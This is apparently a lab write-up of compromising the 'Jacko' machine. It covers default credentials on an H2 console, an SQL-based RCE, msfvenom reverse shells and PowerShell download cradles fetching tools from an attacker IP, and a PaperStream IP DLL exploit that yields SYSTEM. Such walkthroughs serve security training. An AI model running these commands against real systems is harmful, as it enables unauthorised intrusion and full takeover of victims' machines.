# Jacko

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.66 -t full`



`nmapAutomator.sh -H 192.168.134.66 -t vulns`



### SMB

Null sessions not allowed

### HTTP

Port 80:



Port 8082:


The default credentials `sa:` worked. Here we can run SQL queries.



`SHOW DATABASES` shows us that there is a `PUBLIC` schema.



However, further enumeration found nothing much interesting in the database.

We see the version of the product \(H2 1.4.199\). This version suffers from an RCE vulnerability.



Reference: [https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384)

If we execute the following SQL statements:

```text
-- Write native library
SELECT CSVWRITE('C:\Windows\Temp\JNIScriptEngine.dll', CONCAT('SELECT NULL "', CHAR(0x4d),CHAR(0x5a),CHAR(0x90), ... ,CHAR(0x00),CHAR(0x00),CHAR(0x00),CHAR(0x00),'"'), 'ISO-8859-1', '', '', '', '', '');

-- Load native library
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');

-- Evaluate script
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```

we can achieve RCE.

With this, we can run the `systeminfo` command. This shows us that the architecture is x64.



`msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.49.103 LPORT=445 -f exe > reverse.exe`

**Note that ports like 4242, 4444, etc. did not work. I used port 445 since I realised that I was able to copy files via SMB, so it likely won't be blocked by the firewall.**

Copy the payload to the victim machine via SMB:

```sql
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.103\\ROPNOP\\reverse.exe c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```



Running the payload:

```sql
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Receiving the reverse shell:





### Privilege Escalation

#### SeImpersonatePrivilege

`c:\windows\system32\whoami.exe /priv`

We see that `SeImpersonatePrivilege` is enabled.



After we locate the location of `powershell.exe`, we can run powershell.



Using the `GetCLSID.ps1` script from [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/), we can attempt to get CLSIDs.

`IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.103/GetCLSID.ps1')`



This does not work because we cannot find any CLSIDs.

#### Windows OS Exploits

Transfer WinPEAS:

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/winPEASx86.exe","C:\users\tony\winPEASx86.exe")`

Run WinPEAS:

`c:\users\tony\winpeasx86.exe`



We could try these as a last resort.

#### Vulnerable Apps

**Took quite a while to figure this out. Always check for vulnerable apps if WinPEAS does not find anything useful!**





We can check the PaperStream IP version, it is 1.42



This version is vulnerable to a privilege escalation vulnerability.

PaperStream IP exploit: [https://www.exploit-db.com/exploits/49382](https://www.exploit-db.com/exploits/49382)

`msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.103 LPORT=445`



**I initially made the mistake of using an `x64` payload. Note that the application is found under `Program Files (x86)`, so it cannot use an `x64` DLL.**

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/shell.dll","C:\users\tony\shell.dll")`

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/49382.ps1","C:\users\tony\49382.ps1")`

Run the exploit: `C:\users\tony\49382.ps1`



Once the exploit is triggered, we obtain our reverse shell.



The exploit works and we received a SYSTEM shell.





